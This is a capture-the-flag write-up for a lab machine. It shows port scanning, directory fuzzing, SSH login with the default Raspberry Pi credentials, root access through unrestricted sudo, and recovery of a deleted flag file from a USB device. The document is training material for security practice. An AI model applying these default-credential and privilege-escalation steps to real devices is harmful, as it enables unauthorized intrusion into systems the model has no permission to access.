 Target: 10.10.10.48

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.48              

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 21:11 PDT
Nmap scan report for 10.10.10.48
Host is up (0.52s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.48/FUZZ

admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
versions                [Status: 200, Size: 18, Words: 1, Lines: 1]
```

checking 10.10.10.48
![index](mirai1.png)

checking /admin
![/admin](mirai2.png)


### Findings:Looking for attack vectors


[Mirai botnet attack blog](https://www.csoonline.com/article/3144200/expect-more-iot-botnet-attacks-mirai-source-code-now-freely-available.html)


## Foothold:

accessing using default username:password (pi:raspberry)
```
$ ssh pi@10.10.10.48   

pi@raspberrypi:~ $ id

uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

```
pi@raspberrypi:~ $ cat Desktop/user.txt

<redacted>
```


## Priv Escalations:

```
pi@raspberrypi:~ $ sudo -l

Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

```
pi@raspberrypi:~ $ sudo bash

root@raspberrypi:/home/pi# id

uid=0(root) gid=0(root) groups=0(root)
```

looking for root.txt
```
root@raspberrypi:~# cat root.txt

I lost my original root.txt! I think I may have a backup on my USB stick...
```

looking for root.txt
```
root@raspberrypi:~# cd /media/usbstick

root@raspberrypi:/media/usbstick# cat damnit.txt 

Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

looking for root.txt
```
root@raspberrypi:/dev# strings /dev/sdb

>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
<redacted>
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```